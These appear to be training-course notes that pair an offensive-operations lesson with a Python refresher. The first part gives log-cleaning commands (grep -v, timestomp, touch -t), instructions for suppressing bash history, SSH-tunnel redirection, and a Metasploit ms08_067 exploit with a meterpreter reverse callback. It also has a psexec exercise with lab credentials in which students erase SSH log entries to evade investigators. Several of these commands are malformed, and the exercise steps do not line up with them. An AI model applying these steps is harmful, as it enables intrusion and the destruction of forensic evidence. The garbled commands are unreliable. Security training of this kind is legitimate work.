  * Windows Event Logs
    * Very difficult
  Tools
    * Unix: find, grep, wc, cat, tail, head (and others)
    * Windows: dir, find

### Windows find Command

* `run multicommand -c1 "cmd /c find /?"`

```cmd
C:\Users\honey>find /?
Searches for a text string in a file or files.

FIND [/V] [/C] [/N] [/I] [/OFF[LINE]] "string" [[drive:][path]filename[ ...]]

  /V         Displays all lines NOT containing the specified string.
  /C         Displays only the count of lines containing the string.
  /N         Displays line numbers with the displayed lines.
  /I         Ignores the case of characters when searching for the string.
  /OFF[LINE] Do not skip files with offline attribute set.
  "string"   Specifies the text string to find.
  [drive:][path]filename
             Specifies a file or files to search.

If a path is not specified, FIND searches the text typed at the prompt
or piped from another command.
```

### Windows findstr Command

* For redirection, provide a shell:
  * `run multicommand -cl "cmd /c findstr "string" > newfile.txt"`

```cmd
C:\Users\honey>findstr /?
Searches for strings in files.

FINDSTR [/B] [/E] [/L] [/R] [/S] [/I] [/X] [/V] [/N] [/M] [/O] [/P] [/F:file]
        [/C:string] [/G:file] [/D:dir list] [/A:color attributes] [/OFF[LINE]]
        strings [[drive:][path]filename[ ...]]

  /B         Matches pattern if at the beginning of a line.
  /E         Matches pattern if at the end of a line.
  /L         Uses search strings literally.
  /R         Uses search strings as regular expressions.
  /S         Searches for matching files in the current directory and all
             subdirectories.
  /I         Specifies that the search is not to be case-sensitive.
  /X         Prints lines that match exactly.
  /V         Prints only lines that do not contain a match.
  /N         Prints the line number before each line that matches.
  /M         Prints only the filename if a file contains a match.
  /O         Prints character offset before each matching line.
  /P         Skip files with non-printable characters.
  /OFF[LINE] Do not skip files with offline attribute set.
  /A:attr    Specifies color attribute with two hex digits. See "color /?"
  /F:file    Reads file list from the specified file(/ stands for console).
  /C:string  Uses specified string as a literal search string.
  /G:file    Gets search strings from the specified file(/ stands for console).
  /D:dir     Search a semicolon delimited list of directories
  strings    Text to be searched for.
  [drive:][path]filename
             Specifies a file or files to search.

Use spaces to separate multiple search strings unless the argument is prefixed
with /C.  For example, 'FINDSTR "hello there" x.y' searches for "hello" or
"there" in file x.y.  'FINDSTR /C:"hello there" x.y' searches for
"hello there" in file x.y.

Regular expression quick reference:
  .        Wildcard: any character
  *        Repeat: zero or more occurrences of previous character or class
  ^        Line position: beginning of line
  $        Line position: end of line
  [class]  Character class: any one character in set
  [^class] Inverse class: any one character not in set
  [x-y]    Range: any characters within the specified range
  \x       Escape: literal use of metacharacter x
  \<xyz    Word position: beginning of word
  xyz\>    Word position: end of word

For full information on FINDSTR regular expressions refer to the online Command
Reference.
```

* The newfile.txt file contains a list of IP addresses. We want to remove IP 10.0.100.70 from newfile.txt and then change time/date of file to original date and time.


* Use the move command to overwrite the contents of the original file.


### Windows timestamp Command

* Use the timestomp command to return the file to its original date and time.


### Cleaning Logs: Always Use Multicommand Script




### Windows Modify File Timestamp With timestomp


### Unix Log Cleaning

* Look at contents of file using `cat`
* Run `cat` and `grep` for you IP
  * Is your IP present?
* Use `grep -v` to remove you IP and redirect the output
* Use `touch` command to change the timestamp
* example:

```bash
cat secure | grep -v "<string>" > newfile
mv newfile secure
touch -t <date_and_time> secure
```

### UNIX: Modify File Timestamp with touch Command


### Syslog

* Standard protocol for forwarding log messages to a central host
* Sent in clear text:
  * Uses UDP/514 by default
* Small (less than 1 KB) text messages
* Not native in Windows
* UNIX: Setting in `/etc/syslog.conf` file:
  * Look for /oghost setting
   Check for entry with remote IP address

### Syslog Configuration File


### Centralized Log Management


### Redirection

* Most exploiters tend to use at least one layer of redirection between the attacker and the actual target.
* Redirection
  * Adds obfuscation into the connection
  * Reduces the risk of detection by the target
* Tunneling
  * A forard tunnel to deliver the exploit
  * A reverse tunnel fot the callback

### Redirection via SSH Tunnels


### SSH Tunnel and Meterpreter Options


### Example 1 : Preparing the Payload


### Example 1 : Bad Tradecraft


### Redirection Tunnel Example


### Bad Tradecraft Example 2


### Redirection Tunnel Example 2


### Good Tradecraft Example


### Initial SSH Tunnel with Jump Point


* `ssh root@10.20.30.40 -L 11111:20.30.40.50:445 -R 80:127.0.0.1.80`

### Outbound Trigger: Target1


```msf
msf > us eploit/windows/smb/ms08_067_netapi
msf exploit(ms08_067_netapi) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(ms08_067_netapi) > set RHOST 127.0.0.1
msf exploit(ms08_067_netapi) > set RPORT 11111
msf exploit(ms08_067_netapi) > set LHOST 10.20.30.40
msf exploit(ms08_067_netapi) > set LPORT 80
msf exploit(ms08_067_netapi) > exploit
```

* Based on the reverse tunnel, Meterpreter will start a local listener on port 80 (RPORT) on the attack box
* `ssh root@10.20.30.40 -L 11111:20.30.40.50:445 -R 80:127.0.0.1:80`

### Connection and Callback


* Meterpreter box is still listening on 11111 (forward SSH tunnel).
* Jump poin is still listening (as well as conneted) on 80 (Reverse SSH) tunnel
* `ssh root@10.20.30.40 -L11111:20.30.40.50:445 -R 80:127.0.0.1:`

### Lesson 8 Summary

* Logs are a key source for forensic operators
* Locating and reviewing logs, as well as redirection are important to understand to maintain obfuscation during and after an operation

___

## Exercise Module 2, Lesson 8 – Threat Emulation Actions in Logs

___

### Senario 1 - Manipulate logs

* Setup  
`ssh root@10.10.1.40 -L 11111:10.10.1.10:445 -R 34567:127.0.0.:34567`
* Exploit  
`windows/smb/psexec`
`RHOST= 127.0.0.1`
`RPORT=11111`
`SMBUser=slor`
`SMBPass=CTEPasswd1976`
`LHOST=10.10.1.40`
`LPORT=34567`
* Meterpreter  
`multicommand cl "wevtutil qe Securithy /rd:true /f:text /q\"Event[System[(EventID=4624)]]""`

1. Log in to the jump point to identify and remove any log entries relating specifically to SSH connections the attack machine makes.
`ssh root@<cenOS IP>`
2. Before opening any log files, run the file command against the log file to determine if it is ASCII text and therefore human readable.
`script exercise1.txt`
3. Log in to the Kali machine and SSH into the jump point machine.
`cd /var/log`
4. Execute the command that will record the information resulting from the session created from the attack machine to the jump point.
`file * or from another directory file /var/log/*`
5. Once you are connected to the jump point, switch to the directory that holds most of the logging information for the jump point.
`in /var/log/secure look for entries related to:`
`sshd accepted password`
`sshd pam_unix(sshd:session): session opened`
`sshd pam_unix(sshd:session): session closed`
`in /var/log/messages check for instances of a hostname that matches the attack machine's IP address !Use grep to do so`  
6. Identify all human readable logs in the current directory especially those that might contain SSH session entries.
`sudo cat /var/log/secure | grep -v root > /var/log/secure`
`sed '/sshd/d secure > /root/secure then`
7. Run the commands that allow you to view SSH session related information in logs, whether they are in human or non-human readable format.
'touch -t yyyymmddhhmm'
8. Run the commands that will clean the relevant log files.
`modify the time to a zer-byte file`
9. Run the command that changes the time on the cleaned logs to match the last remaining entry.
`it is important for a hacker to know how to blend in`
10. What should you do if all of the logs entries need to be cleaned? Select one or more:
`a. Delete the entries`
`b. Modify the time to a zero byte file`
c. Modify the time to match any other file in the folder
d. Comment out the entries
11. Explain why an attacker should adjust the time on a log that has been changed and discuss why an investigator should review logs for mismatching times.
12. Write down the command that will display the bash command history of the intern and root users on the jump point.
13. How might an investigator might use the bash history information?
14. Why a hacker would want to remove entries/artifacts from the bash_ history file?
15. Write down the command that prevents the system from writing to the bash history file.
16. Explain why an attacker should use a jump point rather than directly exploiting the box
17. Delete any files created during the SSH session, then close the SSH connection to the jump point.

### Part 2: Investigate a target remotely

1. Which implant is typically preferred on a target system? Select one:
  'a. Callback'
  b. Listener
  c. Payload
  d. Exploit
2. List the benefits and drawbacks of:
  a. listeners
  b. callback implants
  c. non-persistent implants
  d. a persistent implant
3. Why shouldn’t you use port 445 as the callback destination port?
4. When considering the four ports:
    * destination
    * source
    * ephemeral
    * local
  and their possible states:
    * open
    * closed
    * mode
    * established
Select the above choices to make this statement true:
To exploit a vulnerable service, the <> must be <> .

___

## Exercise Module 2, Lesson 9: Python Refresher

___

## Python History

* 1989 — Python was created
* 1991 - Python 1
* 2000- Python 2
  * Most applications still use Python 2
  * Python 2 has features that are not forward compatible
* End of life projected for 2020
* 2008- Python 3

### Why Python?

* Popularity
* Availability
* Many benefits:
  * Open source
  * Easy to learn
  * Easy to read
  * Many modules are available
  * Runs on multiple platforms
  * Suitable for everyday tasks
  * Web development
  * Data science
  * Machine learning
  * Mine Twitter data
  * Create games

### What is Python?

* Python is interpreted
  * Similar to PERL and PHP
  * No compiling is needed like in C or C++
  * Python is processed at runtime by an interactive interpreter
* Python is interactive
  * Type straight into an interactive CLI Python interpreter
* Python is Object-Oriented
  * Python supports Object-Oriented programming that encapsulates code within an object

### What is Python: Compiled vs Interpreted Languages

* Compiler
  * The scritp goes through a compiler like gcc
* Binary
  * The compiler compiles the code into binary for the machine to use
* Interpreter
  * The interpreter is an exeutable running on the machine and runs scripts written in an interpreted language


### Interactive Interpreter or REPL (Read Evaluate Print Loop)


### Editors & Integrated Development Environments (IDES)

Windows | Linux | OS X
--- | --- | ---
Notepad++ | Ninja-IDE | Xcode
Visual Studio PyScripter | PyCharm | EditXT
PyCharm | Gedit | PyCharm
Atom | VIM | Pydev
Emacs | Atom | TextMate
IDLE | IDLE | IDLE

### Variables: Creating

* Variables are the basic building blocks in programming
* Everything is seen as an object
* Variables keep track of state
* State: id, type, and value associated with the object  
  

### Variables: Naming Convention  

* Pythonic code and Pythonistas
* Do not use keywords as variable names!
  * Results in a SyntaxError
* Use an underscore to separate words
* Do not start with numbers
* Keep lowercase
  
* Python will let you use built-ins as variables, but you should avoid using them.
* Commonly Used Built-ln Functions

    List1 | List2
    --- | ---
    dict | id
    list | min
    max | open
    range | str
    sum | type
    ___

  

* Fight the temptation to use these as variable names!

### Variables: value

* value: the data that the object holds
  

### Variables: id

* id: A unique ID for the object; its location in memory
  

### Variables: type

* type: the class of the object
* Reveal an object's type by passing
* Objects and Types

Objects | Types
--- | ---
String | str
Integer| int
Floating Point | float
List | list
Dictionary | dict
Tuple | tuple
function | function
type | type
subclass of class | class
Built-in function | builtin function or method

### Writing and Reading

```python
 print ('Nobody likes you') #print will write to standard out
Nobody likes you
 
print ('We are', 2, 'wild and crazy guys' ) #print statement w/ strings and numbers
We are 2 wild and crazy guys  

print ('The' , 92, 'Dream Team')
The 92 Dream Team  

my_age = input ("What's my age again?" ) #waits for input and stores answer in variable my _age
What' s my age again? 23 
my_age
'23'
```

  

### Mutability

* Mutable
  * Mutable objects can change their value; they can alter their state but their identity stays the same.
  * Mutable Types:
    * Dictionaries
    * Lists
* Immutable
  * Imutable objects do not allow their value to be changed; once their value changes their ID changes as well
  * Immutable Types:
    * Strings
    * Tuples
    * Intergers
    * Floats

### Numbers

  
  

* Python follows the traditional **PEMDAS** order of operations.
  
  

### Strings

* Strings are immutable objects that hold character data
  * Could be a single character, word, paragraph, multiple paragraphs, even zero characters
* Denoted by wrapping with:
  * `'` (single quotes)
  * `"` (double quotes)
  * `"""` (triple doubles)
    * Usually used as a docstring
  * `'''` (triple singles)
  

### Strings: Escaping Characters

Escape Sequence | Output
--- | ---
`\\`| Backslash
`'` | Single quote
`"` | Double quote
`\b` | ASCII Backspace
`\t` | Tab
`u12af` | Unicode 16 bit
`U12af89bc` | Unicode 32 bit
`\N{SNAKE}` | Unicode character
`\o84`| Octal character
`xFF`| Hex character

### Strings: Avoid Escaping with r

* Have r precede a string to turn the string into a raw string.
* This is usually done with regular expressions and in Windows paths where the backslash is the delimeter

  

### Strings: Formatting Strings

* Use the `.format` method
  

### Strings: F-Strings

* F-strings introduced in Python 3.6
* Allow for the inclusion of code in placeholders
  * Placeholders can contain function calls, method calls, or any arbitrary code
* Potential for exploitation
  * Reliance on input from outside of the original code


### Strings and Methods

* Because everything is seen as an object each of the objects have methods.
* Invoking dir on an object will show the methods associated with the object.
* STRINGMETHODS entry in the help section has documentation and examples


### Strings and Methods: dir

* dir() returns the attributes of objects


### Strings and Methods: help

* help() brings up Python's help utility


* help() also provides documentation for a method, module, class or function.


### pdb

* Built-in Python debugger


### Lists

* Lists
  * Mutable
  * Holds a list of objects   May hold any type of item, but it's good practice to hold a single type of item
  list1
  list2
* Use methods to modify lists
  * e.g. .append, .remove, .sort
  list 

### Tuples

* Immutable
* Cannot use .append or .remove methods
* Elements are enclosed in parentheses
* Boolean values
  * An empty tupel is false
  * Tuples with at leaset one itme are true


### Sets

* Immutable
* Unordered collection
* Cannot contain duplicates
* Does not care about order
* Good for removing duplicates and checking membership
  
  

### Dictionaries

* Link a key to a value
* Mutable
* Do not copy the variable
* Increase reference count to the variable
  * A python dictionary contains one or more values known as keys (i.e. Baltimore), and each key is tied to a value (i.e. Ravens). Multiple key-value pairs can be stored in a dictionary
  
* Manipulating dictionaries
* No duplicate keys; assigning a value replaces the previous one
  

### Conditionals

* If this is true then do this
* Determin the truthiness of something
* if statements
* else statements

Operator | Meaning | Example
--- | --- | ---
`==` | Equals | a == b
`!=` | Not Equals | a != b
`<` | Less than | a < b
`<=` | Less than or equal to | a <= b
`>` | Greater than | a > b
`>=` | Greater than or equal to | a >= b
`is` | Identical object | a is b
`is not` | Not identical object | a is not b

* Code Blocks
  * Denoted with a colon
  * Denoted with indentation
  * Whitespace matters
  

### Iteratation

* Being able to interate (repeat) through objects
* __iter__()


### Iteratation: for loops



```python
houses = ("stark", "lannister", "baratheon")
for house in houses:
  print(house)
```

* The variable `house` will first point to the value start and the interate throught each proceeding value
* `house` becomes the variable.  This word is arbitrary, but often will be relatd to the item being iterated through
* The `print` command will sequentially reference eachitem in the range
* When the loop completes, Python does't clean up after itself and the last value passed thorught the variable remains.

### Iteration: in statement

* The in statement can be used to check membership


### Iteration: while statement

* loops over block of code while condition holds
* the condition can evaluate to True or False


### Iteration: break

* To break out of a loop, use the keywork break


### Funcions

* The key components of a function are:
  * the def keyword (def defines that a function is being created)
  * a function name (PEP8 says keep it lowercase, use underscores between words, can't be a key word, don't start with a number, don't override built-ins)
  * function parameters parentheses (Any input parameters or arguments should be placed within these parentheses)
  * a colon (:)
  * code blocks (white space matters)
  * a docstring (optional)
  * a return statement (implied if not explicit)


### Functions: Docstrings and help()

* After a docstring is written in a function, help() can be used to see what the author provided for the docstring of the function.


### Functions: Scope


### Staring a Script


### Resources

* For additional information on and practice with using Python, explore the following suggested resources:
  * "Illustrated Guide to Python 3" by Matt Harrison
  * Michael Kennedy `https://blog.michaelckennedy.net/category/python/`
  * "Effective Python Penetration Testing" by Rejah Rehim
  * "Violent Python" by TJ. O'Connor
  * Contributors to `https://www.w3schools.com`
  * "Python Tricks The Book" by Dan Bader   `https://python.org`

### Lesson 9 Summary

* In this lesson we learned how to:
  * Manipulate variables, strings, lists, dictionaries, conditionals, loops, and functions in Python
  * Create variables, strings, lists, dictionaries, conditionals, loops, and functions in Python

___

## Exercise - Module 2, Lesson 9 – Python Refresher I

___

[Module 2, Lesson 9 – Python Refresher I](./Scripts/Python/Mod2L9-Refresher1.py)

___

## Exercise - Module 2, Lesson 9 – Python Refresher II

___

[Module 2, Lesson 9 – Python Refresher II](./Scripts/Python/Mod2L9-Refresher2.py)

___

## LESSON - Module 2 — Lesson 10: Python in Practice

___

### Object-Oriented Programming

* Object Oriented Programming:
  * An **object** is an abstract idea of an entity that:
    * has **properties** (variables) and
    * can **perform actions** (functions)
  * In OOP vernacular, a "function" is called a **"method"**
  * Each **object** is defined based off a **class**.

* So what is a class?
  * A **class** is like a "blueprint" that outlines what the object is and does.
    * Classes define an object's properties, methods, other objects it might resemble, how certain operators affect it, and more.
  * Typically every class is defined with a **constructor**. (and sometimes, a **destructor!**)
* Constructors and Destructors:

  Constructor | Destructor
  --- | ---
  A mthod that runs immediately once the object is created | A method tht runs immediatly one the object is destroyed
  ___

  * You don't often see destructors in Python, but constructors are crucial.
  * All the properties necessary for the object are defined in the constructor.

* What do these things look like?


* Be sure to include "self":


* This allows you to create variables local to the object.


* You can pass in arguments to these methods!


* Declare objects with the class & constructor parameters:
  * After the class is defined, you can create objects!
  * In the REPL, you can see the results right away.
  * The benefit of OOP is encapsulating data and replicating it as needed.


* Create as many objects as you need.
  * What's to stop you from making multiple classes or objects in a script?


* Everything in Python is an object


* OOP Reading Material & Resources
  * For a more in-depth explanation and other details regarding object-oriented programming in Python, check out the official documentation:  
  
`https://docs.python.org/3/tutorial/classes.html`

### List Comprehension

* Making things mor Pythonic...


* "Syntactic sugar"
  * Often times you will need to make small changes to lots of data.
  * Typically, you would iterate through a loop and modify each value.
  * Sometimes this makes for a lot of redundant code.


* Using list comprehension:

  * ***A list comprehension*** allows you to build out a list "on-the-fly", in one line!
  * The syntax is not difficult to wrap your mind around!

* Building out a list comprehension is easy:
  * Start with empty square braces:
  * Enter the syntax for a loop inside the square braces:
  * Do whatever operations you want on the variable name you gave you iterator ***at the very front***
  

* It doesn't have to just be a list!
  * You can build out a set, or a tuple, or even a dictionary just as easily!
  * When you use just parentheses, you build out a ***generator*** object


* And you can use conditionals inside the syntax.
  * If you only wanted to keep values that matched a certain criteria, you can even include an if statement inside of the comprehension syntax.
  * This makes for super quick processing of data, in just one line.


* Don't forget about dictionaries!
  * Dictionaries might be one of the most powerful data types Python has.
  * The dictionary comprehension syntax is just as easy.. and you can still use the if statement conditionals!


* Data comprehension reading material & resources
  * For a more in-depth explanation and other details regarding list comprehension and its variants, check out the official documentation:

`https://docs.python.org/3/tutorial/datastructures.html#list-comprehensions`

### Dangerous Functions

* Dangerous functions
  * There are a handful of Python functions that can be used maliciously.
  * A good many of these come from Python modules, or libraries of code that were already written and can be imported into your project.

System Command Execution | Built-in Python Code Execution | Other Python Code Execution
--- | --- | ---
os.system() | eval() | pickel.loads()
os.spawn | exec() | cPickle.loads()
os.popen | | jsonpickle.loads()
subprocess.call() | | marshal.loads()
subprocess.Popen()
etc

* os.system()
  * os.system(command)
    * Execute the command (a string) in a subshell. This is implemented by calling the Standard C function system ( ) , and has the same limitations. Changes to sys. stdin, etc. are not reflected in the environment of the executed command. If command generates any output, it will be sent to the interpreter standard output stream.
  * Any string you pass in as an argument will be ran as if you entered that  line on the command-line.

* subprocess.call() & subprocess. Popen()

* You might think your code is innocent enough...

* Be wary of unsanitized inputs

* Python eval()
  * eval(expression, globals=None, locals=None)
    * The arguments are a string and optional globals and locals. If provided, globals must be a dictionary. If provided, locals can be any mapping object.
    * The expression argument is parsed and evaluated as a Python expression (technically speaking, a condition list) using the globals and locals dictionaries as global and local namespace. If the globals dictionary is present and does not contain a value for the key built ins , a reference to the dictionary of the built-in module builtins is inserted under that key before expression is parsed. This means that expression normally has full access to the standard builtins module and restricted environments are propagated. If the locals dictionary is omitted it defaults to the globals dictionary. If both dictionaries are omitted, the expression is executed in the environment where eval ( ) is called. The return value is the result of the evaluated expression. Syntax errors are reported as exceptions.
* Python exec()
  * exec(object[,globals[,locals]])
    * **This function supports dynamic execution of Python code.** object must be either a string or a code object. **If it is a string, the string is parsed as a suite of Python statements which is then executed (unless a syntax error occurs)**. **If it is a code object, it is simply executed.** In all cases, the code that's executed is expected to be valid as file input (see the section "File input' in the Reference Manual). Be aware that the `return` and `yield` statements may not be used outside of function definitions even within the context of code passed to the `exec()` function. The return value is None.
* Both `exec` and `eval` allow access to run arbitrary **Python code**
* Sometimes the eval function can be "convenient"...

* Again, completely trusted, but evil user input!

* Dangerous Functions Reading Material &
Resources
  * Many of the excerpts in these slides came from the official Python documentation:
* `https://docs.python.org/3/library/subprocess.html`
* `https://docs.python.org/3/library/os.html`
* `https://docs.python.org/3/library/pickle.html`
* `https://docs.python.org/3/library/functions.html#eval`

### File Handling

* File Handling
  * More often than not, you will want the ability to read and write to files.
  * Since everything is an object in Python, this is very easy to do.
  * All that is necessary is to "open" the file, and to do that you need to know
  * The filename of the file you want to open
  * The mode you want the file to be accessed with.
* Filenames can use either absolute or relative paths.
* You could specify the filename with:
  * an ***absolute*** path
    * includes the enitre path on the filesytem
    * `/etc/passwd` starting from the root directory, including all subfolders, & the filename itself
  * a ***relative*** path
    * accesses the file relative to the scripts location
    * If you were alread in the `/etc` folder, you would just include `the filename itself`
* Open files in specific modes
  * Additionally, files should be opened with a supplied mode.
  * This means either "read," "write, "or "append", as well as "text" & "binary.'
    * r - read mode. Allows read(), readlines()
    * w - write mode. Allows write()
      * Any previous content will be erased!
    * a - append mode. Allows write()
      * Previous content kept, new content added to the end.
    * r+ - both read and write.
    * b - binary mode.
      * Used to handle files like JPG or EXE
  * By default, files are opened in text mode. o You must supply the `b` flag if your files should be written with bytes.
* The Syntax
  * In Python, file handle objects are returned with the open() function
  * The first argument is the filename, and the second is the mode.
  * If the mode is not supplied, the default is read mode and text mode.



* File handle objects must be closed when

  * If you open() a handle, you must close() it (as seen in the last slide).
  * For cleaner code and better practice, use a ***context manager*** by using the ***with*** keyword.
* File handle objects keep a certain kind of "cursor:"

* If you do not use the context manager, you may trip up:


* You can loop through these functions as needed


* When writing, you can still seek and tell just as before!


* The best practice is to just use a context manager.
  * "Using a context manager" means using the with as ... syntax!


* File Handling Reading Material & Resources
  * For a more in-depth explanation and other details regarding file handling, check out the official documentation:

`https://docs.python.org/3/tutorial/inputoutput.html#reading-and-writing-files`

### Introduction to Modules

* Introducing Modules:
  * Modules (also referred to as libraries) are the best part of Python.
  * There are so many general-purpose modules that can do so many things.
  * It is usually "plug and play" -- the modules work out of the box even when you install new ones... and Python comes with plenty of built-in libraries.
* Python Built-in Libraries

Library | Usage
--- | ---
string | Common string data & operations
re | Regular Expression fuctionality
difflib | Module for finding differences in data
textwrap | Convenience functions for text
readline | GNU readline interface
datetime | Date and time functionality
calendar | Calendar interface and features
copy | Shallow and deep copy operations
pprint | Functions to pretty print data
math | Mathematical operations and values
random | Pseudo-random number generation
itertools | Permutation & compination loops
operator | Standard operators as functions
tempfile | Quick creation of temporary files
glob | Unix-style pathname patter matching
shutil | File operations like copy ad move
pickle | Python object serialization
sqlite3 | DB API for SQLite databases
zipfile | Functions handling Zip archives
csv | Reading and writing to CSV files
hashlib | Secure hash and digest functions
os | Operating system functionality
time | Time access and timezone conversations
getpass | Functionality to hide password input
threading | multiprocessing with threads
subprocessing | Subprocess management
socket | Low-level networking interface
email | Email handling functions
base64 | Multilple base data encodings
*This is less the 10% of the standard libraries*
___

* Where do we get these modules?
  * When Python is told to import a module, it will look for the appropriately named .py file or .pyc file ("compiled" Python modules) in three places:
    1. The directory containing the current scritp itself (or the current directory)
    2. The $PYTHONPATH environment variable (list of direcotories to check)
    3. The installation-dependent default library
  * ***NOTE***
    * Be warned! If you happen to name the Python script you are writing in, the same name as a module you are trying to import, your Python code will import itself.
* You can always write your own modules.
  * Modules let you save and store
useful code that you have written before
  * If you like to use a OOP design,
it's best practice to save all your
class definitions in other scripts... just like modules!

* Any Python script is already a module!
  * Remember, modules, just like scripts, end in a .py extension.
  * Just like how all the data types used previously are actually objects...
  * **Even all the scripts we write are *actually modules!***
* What if you wanted to declare and execute code?
  * Your .py file can both declare things like functions & classes, and run code as well
  * But if you imported this in another script, it would run all this test code!
  
* The solution: the `__name__` value.
  * The way that Python understands if you are importing a module or not is by using another "magic" variable:`__name__`
  * `__name__` will be the string " main in an actively running script...

* Testing the value of `__name__` is important for modules!
  * To ensure that code doesn't run when you **"import"** the script as a module, test if this is the "main file".
  * This code makes your .py file dynamic; it can act as a module, and as an
executable script.

* The syntax to import a module:
  * You can import a module and retain its **namespace**
  
  * Or, you can import anything *within* the module, without retaining its namespace
  
  * Be warned; this overwrites!

* You can "nickname" your imports:
  * If you want a quick, shorthand name you can "**import os**" to give an alias to what you import
  
  * Also, when you use the "form" syntax, you don't have to import everything.  If ther are only one or a few function/variables you need, just import those

* Python Modules Reading Material & Resources
  * The example given thus far is only a primitive implementation of writing your own module.
  * For a more in-depth explanation and other details regarding the import statement and what you can do with modules, check out the official documentation:
  
`https://docs.python.org/3/tutorial/modules.html`
`https://docs.python.org/3/reference/simplestmts.html#import`

## Socket Module

* Enter the socket module!
  * socket — Low-level networking interface
  * This module provides access to the BSD socket interface. It is available on all modern Unix systems, Windows, MacOS, and probably additional platforms.
  * The Python interface is a straightforward transliteration of the Unix system call and library interface for sockets to Python's object-oriented style: the `socket()` function returns a *socket object* whose methods implement the various socket system calls. Parameter types are somewhat higher-level than in the `C` interface: as with `read()` and `write()` operations on Python files, buffer allocation on receive operations is automatic, and buffer length is implicit on send operations.
* We could access a remote service
  * You normally connect to a socket with "nc" (netcat).


* Often times it is interactive
  * You will receive data from a socket, and you can send it data back!


* With netcat, this is a manual process
  * You are interacting with a program, listening on a host at a certain port.


* But it doesn't have to be manual
  * Using Python and the socket module, you can automate this interaction
  * This can be incredibly handy when you
need to send a lot of input to a program, or you want automation in your workflow


* socket can work with a lot of different connections
  * The socket module includes a handful of constants, that offer the functionality to work with different kinds of sockets:
    * Network sockets, Linux sockets, the CAN bus protocol, and more
  * `socket.socket(family=AF_INET, type=SOCK_STREAM, proto=O, fileno=None)`
    * Create a new socket using the given address family, socket type and protocol number. The address family should be `AF_INET` (the default), `AF_INET6`, `AF_UNIX`, `AF_CAN`, `AF_PACKET`, or `AF_RDS`. The socket type should be `SOCK_STREAM` (the default), `SOCK_DGRAM`, `SOCK_RAW` or perhaps one of the other SOCK_constants. The protocol number is usually zero and may be omitted or in the case where the address family is `AF_CAN`, the protocol should be one of `CAN_RAW`, `CAN_BCM` or `CAN_ISOTP`.
  * For our purposes, the defaults (AF_INET & SOCK_STREAM) work fine
* Some common use cases: a socket server
  * If we wanted to build the service that one connects to, we can do that with the socket module
  * Note that in this case, the server can
only handle one connected client
  * The server must be threaded in order to accept() multiple connections
The b in the very front of the string indicates that Python3 wants data sent back and forth from a socket to be transferred in bytes


* Now you have a service to connect to!


* This is not the best implementation of a socket server
  * If you open up another connection (while you already have one running), you won't see the greeting come through on the client.
  * To build a quality socket server, you can use the socketserver module.
  * Mostly, you will see the socket module just used for client connections.
* Connecting to a service is simple:


* Python3 sends socket data back and forth as bytes.


* Reading material & resources for Python socket module
  * For a more in-depth explanation and other details regarding the Python socket module, check out the official documentation:

`https://docs.python.org/3/library/socket.html`

* ***Exploring module documentation is highly recommended.***

* Lesson 10 Summary
  * In this lesson we discussed:
    * Object-Oriented Programming
    * List Comprehension
    * Dangerous Functions
      * Exercise 1: Abusing Python 2 Input Functions
    * File Handling
    * Introduction to Modules (socket)
      * Exercise 2: FTP Banner Grab

___

## Exercise - Module 2, Lesson 10 – Python in Practice I

___

[Python in Practice I Code](./Scripts/Python/Mod2L10-Python-in-Practice1.md)

___

## Exercise - Module 2, Lesson 10 – Python in Practice II

___
